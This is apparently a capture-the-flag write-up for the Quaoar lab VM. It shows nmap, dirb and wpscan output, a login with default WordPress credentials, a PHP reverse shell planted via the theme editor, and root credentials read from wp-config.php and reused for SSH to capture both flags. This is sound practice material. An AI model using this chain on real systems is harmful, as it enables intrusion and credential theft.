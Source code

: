 # ctf-Quaorar
Opening with NMAP :
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
|   2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
|_  256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
53/tcp  open  domain      ISC BIND 9.8.1-P1
| dns-nsid: 
|_  bind.version: 9.8.1-P1
80/tcp  open  http        Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open  pop3?
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
993/tcp open  ssl/imap    Dovecot imapd
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2017-10-16T05:14:13+00:00; 0s from scanner time.
995/tcp open  ssl/pop3s?
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
MAC Address: 08:00:27:77:97:F9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

and one dirb //dirb http://192.168.1.96/   /home/boax/Téléchargements/common.txt


Entering directory: http://192.168.1.96/wordpress/ ----
==> DIRECTORY: http://192.168.1.96/wordpress/index/                            
+ http://192.168.1.96/wordpress/index.php (CODE:301|SIZE:0)                    
+ http://192.168.1.96/wordpress/license (CODE:200|SIZE:19930)                  
+ http://192.168.1.96/wordpress/readme (CODE:200|SIZE:7195)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-admin/                         
+ http://192.168.1.96/wordpress/wp-blog-header (CODE:200|SIZE:0)               
+ http://192.168.1.96/wordpress/wp-config (CODE:200|SIZE:0)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-content/                       
+ http://192.168.1.96/wordpress/wp-cron (CODE:200|SIZE:0)                      
==> DIRECTORY: http://192.168.1.96/wordpress/wp-includes/                      
+ http://192.168.1.96/wordpress/wp-links-opml (CODE:200|SIZE:217)              
+ http://192.168.1.96/wordpress/wp-load (CODE:200|SIZE:0)                      
+ http://192.168.1.96/wordpress/wp-login (CODE:200|SIZE:2530)                  
+ http://192.168.1.96/wordpress/wp-mail (CODE:500|SIZE:3011)                   
+ http://192.168.1.96/wordpress/wp-settings (CODE:500|SIZE:0)                  
+ http://192.168.1.96/wordpress/wp-signup (CODE:302|SIZE:0)                    
+ http://192.168.1.96/wordpress/wp-trackback (CODE:200|SIZE:135)               
+ http://192.168.1.96/wordpress/xmlrpc (CODE:200|SIZE:42)                      
+ http://192.168.1.96/wordpress/xmlrpc.php (CODE:200|SIZE:42)     


Site based on wordpress !

wpscan attack /

ruby wpscan.rb -u http://192.168.1.23/wordpress --enumerate u
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4-dev
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.96/wordpress/
[+] Started: Thu Oct 19 20:14:14 2017

[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+--------+--------+
    | Id | Login  | Name   |
    +----+--------+--------+
    | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
 
 Log on http://192.168.1.96/wordpress/wp-login.php?loggedout=true
with admin/admin .

Then , on the dashboard , on Apparence / Editor / Header , we can put a reverseShell  ( http://pentestmonkey.net/tools/web-shells/php-reverse-shell ) . Set up with ur IP and with for example the port 4444 open .

So listen on 4444 :
which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Quaoar:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Quaoar:/$ ls -lat
ls -lat
total 85
drwxr-xr-x  15 root root  4000 Oct 19  2017 dev
drwxr-xr-x 117 root root  4096 Oct 19  2017 etc
drwxr-xr-x  13 root root     0 Oct 19  2017 sys
drwxrwxrwt   3 root root  4096 Oct 19 14:23 tmp
drwxr-xr-x  24 root root   780 Oct 19 14:12 run
dr-xr-xr-x 107 root root     0 Oct 19 14:12 proc
drwxr-xr-x  13 root root  4096 Jan 15  2017 var
drwx------   6 root root  4096 Nov 30  2016 root
drwxr-xr-x   4 root root  1024 Oct 28  2016 boot
drwxr-xr-x   2 root root  4096 Oct 28  2016 sbin
drwxr-xr-x   3 root root  4096 Oct 24  2016 home
drwxr-xr-x  22 root root  4096 Oct  7  2016 .
drwxr-xr-x  22 root root  4096 Oct  7  2016 ..
-rw-------   1 root root  1024 Oct  7  2016 .rnd
drwxr-xr-x  21 root root  4096 Oct  7  2016 lib
drwxr-xr-x   2 root root  4096 Oct  7  2016 bin
lrwxrwxrwx   1 root root    33 Oct  7  2016 vmlinuz -> boot/vmlinuz-3.2.0-23-generic-pae
lrwxrwxrwx   1 root root    37 Oct  7  2016 initrd.img -> /boot/initrd.img-3.2.0-23-generic-pae
drwxr-xr-x   3 root root  4096 Oct  7  2016 media
drwxr-xr-x  10 root root  4096 Oct  7  2016 usr
drwxr-xr-x   2 root root  4096 Oct  7  2016 opt
drwxr-xr-x   2 root root  4096 Oct  7  2016 srv
drwx------   2 root root 16384 Oct  7  2016 lost+found
drwxr-xr-x   2 root root  4096 Apr 19  2012 mnt
drwxr-xr-x   2 root root  4096 Mar  5  2012 selinux

further ...

cd home
www-data@Quaoar:/home$ ls
ls
wpadmin
www-data@Quaoar:/home$ cd wpadmin
cd wpadmin
www-data@Quaoar:/home/wpadmin$ ls
ls
flag.txt
www-data@Quaoar:/home/wpadmin$ cat flag.txt
cat flag.txt
2bafe61f03117ac66a73c3c514de796e

The flag1 !!!

So , lets continue :

 cd var
cd var
www-data@Quaoar:/var$ ls
ls
backups  cache	crash  lib  local  lock  log  mail  opt  run  spool  tmp  www
www-data@Quaoar:/var$ cd www
cd www
www-data@Quaoar:/var/www$ ls
ls
CHANGELOG			hack-planet-high-definition-mobile.jpg
COPYING				hacker-manifesto-ethical.jpg
Hack_The_Planet.jpg		hacking.jpg
Hack_The_Planet2.jpg		hsperfdata_tomcat6
Hack_The_Planet3.jpg		index.html
INSTALL				pososibo-ethical-hacking-hack-fond.jpg
LICENSE				robots.txt
Quaoar.jpg			tomcat6-tomcat6-tmp
README.md			upload
hack-planet-1280-amox-zone.jpg	wordpress
www-data@Quaoar:/var/www$ cd wordpress 
cd wordpress
www-data@Quaoar:/var/www/wordpress$ ls
ls
index.php	 wp-blog-header.php    wp-cron.php	  wp-mail.php
license.txt	 wp-comments-post.php  wp-includes	  wp-settings.php
readme.html	 wp-config-sample.php  wp-links-opml.php  wp-signup.php
wp-activate.php  wp-config.php	       wp-load.php	  wp-trackback.php
wp-admin	 wp-content	       wp-login.php	  xmlrpc.php

and cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

give credentials for ssh connection (root / rootpassword! ) :


ssh root@192.168.1.23
The authenticity of host '192.168.1.96 (192.168.1.23)' can't be established.
ECDSA key fingerprint is SHA256:+ODdJgfptUyyVzKI9wDm804SlXxzmb4/BiKsHCnHGeg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.23' (ECDSA) to the list of known hosts.
root@192.168.1.23's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Oct 19 14:36:35 EDT 2017

  System load:  0.0               Processes:             102
  Usage of /:   29.8% of 7.21GB   Users logged in:       0
  Memory usage: 55%               IP address for eth0:   192.168.1.23
  Swap usage:   0%                IP address for virbr0: 192.168.122.1

  Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jan 15 11:23:45 2017 from desktop-g0lhb7o.snolet.com
root@Quaoar:~# id
uid=0(root) gid=0(root) groups=0(root)

and :ls -lat
total 48
-rw-------  1 root root  368 Jan 15  2017 .bash_history
drwx------  6 root root 4096 Nov 30  2016 .
-rw-------  1 root root 4740 Nov 30  2016 .viminfo
drwx------  2 root root 4096 Oct 26  2016 .ssh
----------  1 root root   33 Oct 22  2016 flag.txt
drwx------  2 root root 4096 Oct 15  2016 .cache
drwxr-xr-x 22 root root 4096 Oct  7  2016 ..
drwx------  2 root root 4096 Oct  7  2016 .aptitude
drwxr-xr-x  8 root root 4096 Jan 29  2015 vmware-tools-distrib
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
-rw-r--r--  1 root root  140 Apr 19  2012 .profile

the last flag :

cat flag.txt   

the flag2 :e3f9ec016e3598c5eec11fd3d73f6fb


TY ! 










